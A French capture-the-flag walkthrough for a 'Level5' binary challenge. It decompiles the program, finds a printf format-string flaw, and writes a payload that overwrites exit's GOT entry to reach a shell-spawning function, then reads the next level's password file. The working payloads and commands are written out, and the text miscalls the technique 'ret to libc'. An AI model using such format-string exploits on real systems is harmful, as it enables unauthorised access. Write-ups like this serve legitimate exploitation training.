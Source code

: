 

# Level5

---
###### Étape 1 : -- Décompiler le programme --

En décompilant le programme avec Dogbolt ou Ghidra, on voit dans le programme trois fonctions N, O et Main.

On voit par la suite que dans la fonction N il y a la fonction __printf__ qui est appelé.

 - on utilisera cette fonction pour overflow le programme.

On voit aussi que dans cette fonction on a la fonction __fgets__ qui est proteger, qui viens récupérer 512 charactères dans l'entrée standard.

On voit que dans la fonction O on a un appel system pour executer un terminal bash.

sachant que la fonction O n'est jamais appeler dans le programme. Avec printf dans la fonction N on dois faire en sorte d'accéder a la fonction O.


###### Étape 2: -- Récuperation d'information --

En lancant le programe comme suit:
```bash
python -c 'print "AAAA" + " %p " * 5' | ./level4
```

on observe ce resultat: 
> AAAA 0x200  0xb7fd1ac0  0xb7ff37d0  0x41414141  0x20702520

on voit que la chaine "_AAAA_" -> hex: "_0x41414141_" ce situe a la 4ème position.

depuis ___GDB___ on recupère l'addresse de ___O___ qui est ==0x080484a4==. on la transforme ensuite en décimale -> 134513828

On récupère ensuite la première addresse dans la fonction exit -> ==0x8049838==.

###### Étape 3: -- Execution --

On crée un one-liner python pour executer un payload pour un __ret to libc__ qui nous permetra d'accéder à la fonction ___O___.

Contruction du payload: 
> (python - c 'print "[exit_address]" + "%[134513828 - sizeof(exit_address)]c" + "%4$n"'; cat -) | ./binary

Payload final :

```bash
(python -c 'print "\x38\x98\x04\x08" + "%134513824c" + "%4$n"'; cat -) | ./level5
```

Dans le terminal on execute la commande suivante pour récupérer le password du level6:

```bash
cat /home/user/level6/.pass
```






